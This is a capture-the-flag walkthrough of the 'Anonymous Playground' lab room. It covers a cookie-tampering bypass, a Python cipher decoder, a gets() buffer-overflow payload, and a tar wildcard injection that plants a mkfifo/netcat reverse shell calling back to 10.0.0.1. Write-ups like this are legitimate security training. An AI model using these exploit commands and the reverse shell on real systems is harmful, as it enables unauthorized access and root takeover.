# **Anonymous Playground**
## **gathering informations**

* **nmap**

    ```sh
    sudo nmap -sS -sC -sV -v <MACHINE_IP>
    ```

  * -Pn: Disables host discovery.
    
  * -sV: Performs version detection for the services.
    
  * -sC: Performs a script scan using default scripts available in NMAP.
    
  * -v: Provides verbose details about the NMAP scan

the scan found two open posts port 80(http) and port 22(ssh) decided to check the website hosted on port 80, I found the home page and a page called operatives i found a list of what appear to be usernames ([sp00ky](https://tryhackme.com/p/Sq00ky) help in room creation)



i found "/zYdHuAKjP" in nmap results

  
 
when i open it on port 80 i found this page that has access denied

  

Using the developer tools in firefox, I was able to find a cookie called access which has it’s value set to denied

  

I changed this value to granted, and then reloaded the page. This worked and I was presented with a new message on the web page.

  

## **Decoding The Cipher**

It looks like there is some kind of cipher encrypted message on the page which looks like possible credentials (i.e. username::password). After spending some time on trying to decipher the message, I decided to look at the hint 

**Hint**: You’re going to want to write a **Python** script for this. **‘zA’ = ‘a’**

According to the hint, “zA = a”. After a brain storming, I realized that if you change the letters to their ordered numerical position in the alphabet and added them together, then you would get a new value which would represent the ordered numerical position of another letter in the alphabet. The examples below shows this.
  ```
  # EXAMPLE 1
  'z' = 26 # 26th letter in the alphabet
  'A' = 1 # 1st letter in the alphabet(26 + 1) % 26 = 1 = 'a'
  
  # EXAMPLE 2
  'h' = 8
  'E' = 5(8 + 5) % 26 = 13 = 'm'
  
  N.B. Mod (i.e. '%') 26 is used since there are only 26 letters in the alphabet.
  ```
It is possible to perform these calculations manually but I decided to write a simple python script to do it with the help of some online sources

``` python
#! /bin/python3.8

def deciphering(str):
    list1= []
    a = ""
    for i in str:
        list1.append((ord(i) & 31))

    res = []

    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)

    for i in range(len(res)):
        tmp = chr(res[i] + 64).lower()
        print(tmp, end=" ")

username = "hEzAdCfHzA"
deciphering(username)
print("::", end=" ")
password = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
deciphering(password)
```
Running this script gives me a username and password. If I look at the list of operatives seen earlier when examining the website, I can also see that the username is present in the list

  

Using these credentials, I can SSH into the target machine and retrieve the first user flag.

## **User Privilege Escalation**

I found a binary executable called “**hacktheworld**” and a text file called “**note_from_spooky.txt**” in the **magna user’s home directory**. The text file contains the message seen in the image below.

  

I decided to use scp to copy the file to my local machine for further analysis.
```sh
scp magna@10.10.77.16:/home/magna/hacktheworld
```
Using Ghidra, I started examining the binary by looking at it’s main function. The code creates a char buffer of 64 bytes in size. The program then uses the function “gets()” to take my input. This vulnerable C function can be exploited to cause a buffer overflow.

  

I found a second function called “call_bash”, which is not referenced in the main function. This function prints several messages before using the function “setuid()” to set the effective user ID of the calling process. A new shell is then created under the set user ID.

  

I can exploit the vulnerable C function “gets()” to cause a buffer overflow and overwrite the return address on the stack with the address of the “call_bash” function. To find the size of the buffer and how many “A” I would need to overwrite it, I used python to supply input and identify the exact amount of “A” that would cause the program to crash. This involves some trial and error.

  

I found supplying 72 “A” would cause the segmentation fault to occur and anything less would not result in the program crashing. Next, I used “readelf” and “grep” to find the memory address of the “call_bash” function.
```sh
readelf -s hacktheworld | grep -i "call_bash"
```
This provided the following address seen below for the function “call_bash”.

  

I can now attach this memory address in hex format, while still keeping the endianness of the function written in memory, to the end of my 72 “A”

* **python2** :
  ```sh
  python2 -c 'print "A"*72 + b"\x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld
  ```
* **python3** :
  ```sh
  python3 -c 'print("A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00")' | ./hacketheworld
  ```
This successfully calls the function but I do not get an escalated shell as expected. Instead, I get a segmentation fault.

  

After spending sometime trying to figure out why I couldn’t get the exploit to work, I came across an explanation provided by LiveOverflow (see references). When I exploit the program to create a shell, the shell is executed but doesn’t have any input so the shell ends up just exiting. To get around this, I can combine my exploit with the command cat as seen below.


* **python2** :
  ```sh
  (python2 -c 'print "A"*72 + b"\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacketheworld
  ```
* **python3** :
  ```sh
  (python3 -c 'print("A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00")'; cat) | ./hacketheworld
  ```
This works and I have escalated my privileges successfully to the user spooky.

  

I use python to import the pty module and create a fully interactive TTY shell as seen below.
```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```
After this, I navigate to the user spooky’s home directory and get the second user flag.

## **Root Privilege Escalation**

Now that I have both user flags, I started looking for anyway to escalate my privileges to root. While looking for privilege escalation exploits, I decided to check if there were any interesting cronjobs running.

  

I saw an interesting cronjob being ran by the user root. This cronjob executes a series of commands which archives all the files located in the user spooky’s home directory into a tar file. After searching for a way to escalate my privileges using a tar file, I came across an article called “Exploiting Wildcard for Privilege Escalation” (see references). In this article, I discovered how I could escalate my privileges using a Tar Wildcard Injection by entering the following commands.

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f" > shell.sh

echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1
```
The commands work as follows:

* Create a reverse shell and store it in a file called shell.sh.
* –checkpoint[=NUMBER] show progress messages every Numbers record (default 10).
* –checkpoint-action=ACTION execute ACTION on each checkpoint. Runs the file shell.sh after the first file is archived. Since the tar command is running as root due to crontab, this has the effect of spawning a netcat shell and sending it to the attack platform on port 4444.

Next, I setup a netcat listener on my host device for any incoming connections on port 4444.
```sh
nc -lvnp 4444
```
After a few minutes, I get a reverse shell with root privileges. I can then change to the root directory and get the final root user flag

